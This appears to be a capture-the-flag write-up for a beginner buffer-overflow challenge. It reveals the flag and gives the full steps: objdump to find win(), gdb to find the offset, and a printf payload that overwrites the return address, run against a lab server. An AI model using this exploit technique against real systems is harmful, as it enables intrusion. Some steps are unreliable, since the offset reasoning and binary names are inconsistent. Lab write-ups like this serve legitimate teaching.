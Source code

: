 ## PWN-0: System Exploitation
**Description:**
A binary exploitation challenge that involves triggering a buffer overflow to hijack execution flow and call a hidden `win()` function.
<details> <summary><b>Reveal Flag</b></summary> flag{47ea70cf08} </details></br>

**Solution Summary:**
- Discovered a vulnerable C program with no protection mechanisms.
- Identified a classic buffer overflow in the `main()` function.
- Used `objdump` to locate the address of the hidden `win()` function.
- Crafted a payload to overflow the buffer and redirect execution to `win()`.

**Exploitation Steps:**
1. Evaluate the C source file:
   ```bash
   cat /ctf/vulnerable.c
    ```
    Identified a vulnerable `gets()` call in `main()` with no bounds checking.
2. Following the challenge instructions I compiled the binary:
    ```bash
    cd /ctf
    make
    ```
3. Analyze the binary structure using objdump to locate the `win()` function:
    ```bash
    objdump -d ./vulnerable | grep win
    ```
    Output:
    ```plaintext
    080491a5 <win>:
    ```
4. Determine the buffer offset to overwrite the return address:
   - To identify how many bytes were required to reach the return address, I used a crafted input of the full alphabet to trace the overflow point.
     ```bash
     echo "ABCDEFGHIJKLMNOPQRSTUVWXYZ" | ./vulnerable
     ```
   - Then ran the binary inside GDB with verbose logging enabled:
     ```bash
     gdb ./vulnerability
     (gdb) set verbose on
     (gdb) run < input.txt
     ```
   - After the program crashed, I used the following to inspect the value of the instruction pointer (`EIP`) to confirm where in the input it contained the last 4 bytes of the input string.:
     ```bash
     (gdb) info registers
     ```
    - Based on the position of the overwritten instruction pointer within the alphabet string, I calculated that **28 bytes** were required to reach the return address.

5. Construct the exploit payload using the **28 bytes** and the `win()` address (in little indian of course) before testing the exploit against the local copy of `./vunlnerable`
    ```bash
    printf "AAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa5\x91\x04\x08" | ./vulnerable
    ```
    Boom..! Success.. we now know that this exploit will achieve the goal of executing the `win()` function that otherwise wouldn't.
    ![img](../images/PWN-0.jpg) 
6. Exploit the buffer overflow against the target server `192.168.1.2` on port `9999` to retrieve the flag.
    ![img](../images/PWN-0a.jpg)
